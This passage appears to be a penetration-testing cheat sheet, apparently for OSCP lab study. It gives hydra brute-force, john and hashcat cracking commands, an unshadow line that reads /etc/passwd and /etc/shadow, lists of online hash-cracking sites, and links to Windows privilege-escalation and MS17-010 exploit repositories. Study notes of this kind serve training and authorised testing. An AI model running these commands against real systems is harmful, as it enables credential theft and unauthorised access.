 ```
hydra -l root@localhost -P /usr/share/wordlists/word.txt 10.11.1.39 http-post-form "/otrs/index.pl:Action=Login&RequestedURL=&Lang=en&TimeOffset=300&User=^USER^&Password=^PASS^:Login Failed" -V
```

Find Hash type:

[https://hashkiller.co.uk](https://hashkiller.co.uk)

Cracking passwords using CPU:

```
john --wordlist=/usr/share/wordlists/rockyou.txt 127.0.0.1.pwdump
```

Cracking passwords using GPU:

```
hashcat -m 500 -a 0 -o output.txt -remove hashes.txt /usr/share/wordlists/rockyou.txt
```

Cracking /etc/shadow:

```
unshadow /etc/passwd /etc/shadow /tmp/combined; john --wordlist=<any word list> /tmp/combined
```

Online rainbow tables:

[https://crackstation.net/](https://crackstation.net/)

[http://www.cmd5.org/](http://www.cmd5.org/)

[http://crackhash.com/](http://crackhash.com/)

[https://hashkiller.co.uk/md5-decrypter.aspx](https://hashkiller.co.uk/md5-decrypter.aspx)

[https://www.onlinehashcrack.com/](https://www.onlinehashcrack.com/)

[http://rainbowtables.it64.com/](http://rainbowtables.it64.com/)

[http://www.md5online.org/](http://www.md5online.org/)

***

## Tips and Tricks for Windows Privilege Escalation

Windows privesc scripts and binaries:

[https://github.com/jivoi/pentest/tree/master/exploit_win](https://github.com/jivoi/pentest/tree/master/exploit_win)

[https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)

[https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html) - Great list for Windows XP

[https://github.com/3ndG4me/AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) - Great exploit for windows 2000 to Windows 10

[https://medium.com/@sdgeek/hack-the-box-htb-blue-115b3f563125](https://medium.com/@sdgeek/hack-the-box-htb-blue-115b3f563125) - MS17-010 Exploit tutorial
